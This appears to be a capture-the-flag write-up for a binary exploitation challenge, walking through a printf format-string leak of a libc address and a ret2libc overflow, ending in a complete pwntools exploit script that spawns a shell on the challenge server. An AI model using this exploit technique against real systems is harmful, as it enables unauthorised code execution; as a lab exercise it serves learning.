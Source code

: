 ![Screenshot 2025-02-24 160120](https://github.com/user-attachments/assets/d8779f32-86da-42b2-8512-5f5af87f4ff3) \
Solved by : Relster

# Technique = Format string leak & Ret2libc

## 1. Checking given file.
Given a zip file that contains 3 files which are _vuln_, _libc.so.6_, and _ld-linux-x86-64.so.2_ \

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/kashi/pwn/trollzone/chall/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
This challenge is pretty trivial like most ret2libc challenges out there. The only difference is that, leaked address would n


## 2. Patching & Analyzing binary.
Patch:\
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```
This should give us the __vuln_patched__ binary.\
\
Running binary:\
![Screenshot 2025-02-27 122548](https://github.com/user-attachments/assets/f0f7093c-3abe-4dbb-b179-cc7300a41a59)
If we continue leaking using '_%p_' format specifier, we'll find an address which still located within the _libc_ memory area and the offset is at the 17th offset (_%17$p_). Note that the address is still in _libc_ memory area but we that leaked address is not a _libc_ _function_ so we'll have to debug it in **GDB** to see nearest address that's a _libc function_. You'll see what i mean in the next image. \
\
Debugging in **GDB**:\
Let's put a __breakpoint__ here and _run_ it.
![Screenshot 2025-02-27 124235](https://github.com/user-attachments/assets/c62b08d1-1360-4b57-ae20-9a151bb14cdd)
\
Type _ni_ and we will be asked for the input, and we'll type _%17$p_ to leak the address as i mention above.
![Screenshot 2025-02-27 124359](https://github.com/user-attachments/assets/f538a9c6-2d97-451b-9c16-1ca9d08b2332)
\
We'll copy that _leaked address_ (_0x7ffff7e0924a_ in this case) and examine nearby address that is hopefully some _libc function_ so that we can subtract the offset of that function to get the base address of _libc_.

\
We can see that the leaked address is close to ___libc_start_main_, from here we just need to do some basic pointer arithmetic to get the address of ___libc_start_main_.\
![Screenshot 2025-02-27 124758](https://github.com/user-attachments/assets/30598f7c-b94c-4326-aed3-b9d1e9809fe2)

It's _0x36_ bytes or 54 bytes in difference between _0x7ffff7e0924a_ and ___libc_start_main_.
![Screenshot 2025-02-27 125317](https://github.com/user-attachments/assets/369b3f2b-3562-4ec9-a786-b87fec311c14)
\

\
From here it's just trivial like traditional _**ret2libc**_ challenges, we'll just subtract the address of ___libc_start_main_ with its offset and voila we get the base address of _libc_.


## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'

TARGET = './vuln_patched'
HOST = 'kashictf.iitbhucybersec.in'
PORT = 55698

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-linux-x86-64.so.2")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

#context.log_level = 'DEBUG'

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #


# STAGE 1 : Leak address from stack using 'printf format string'

fmtstr = b'%17$p'   # leaked libc address is at 17th offset

rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
libc_start_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print("Offsets:")
print(f"__libc_start_main : {hex(libc_start_offset)}")
print(f"system            : {hex(system_offset)}")
print(f"/bin/sh           : {hex(binsh_offset)}")
print("==================================")

payload = flat(
    fmtstr,
)
p.sendline(payload)


# STAGE 2 : Clean up the leaked address

p.recvuntil(b'not giving you ')

# Leaking address and find libc base address
leak = p.recvuntil(b'\n').strip().decode()
libc_start_main = int(leak, 16) + 0x36  # this is adjacent (not very adjacent, but close) to the function '__libc_start_main', their difference is 0x36 bytes
libc_base = libc_start_main - libc_start_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked address    : {leak}")
print(f"__libc_start_main : {hex(libc_start_main)}")
print(f"libc_base         : {hex(libc_base)}")
print(f"system            : {hex(system)}")
print(f"binsh             : {hex(binsh)}")


# STAGE 3 : Craft payload from leaked addresses and send it to remote server

# Find pop rdi; ret; in libc
rop_libc = ROP(libc)
pop_rdi = rop_libc.find_gadget(['pop rdi', 'ret'])[0]
pop_rdi_addr = libc_base + pop_rdi

# Overflow, set up rdi register with '/bin/sh' string, call system()
pop_shell = flat(
    'A' * 40,
    ret,
    pop_rdi_addr,
    binsh,
    system
)
p.sendline(pop_shell)

p.interactive()
p.close()

# NOTE:
# Format string leak & Ret2libc
```

## 4. Result
Local: \
![Screenshot 2025-02-27 125815](https://github.com/user-attachments/assets/ae521fd4-c5dc-4b94-886c-3771b395ce97)

Remote: \
![Screenshot 2025-02-27 130010](https://github.com/user-attachments/assets/baee9b69-ad94-4a81-abbf-76ec56a10b5d)
Note : I was writing this writeup when the challenge is done, so no flags but the exploitation remains the same.

## Keyword
ret2libc \
_printf_ format string leak
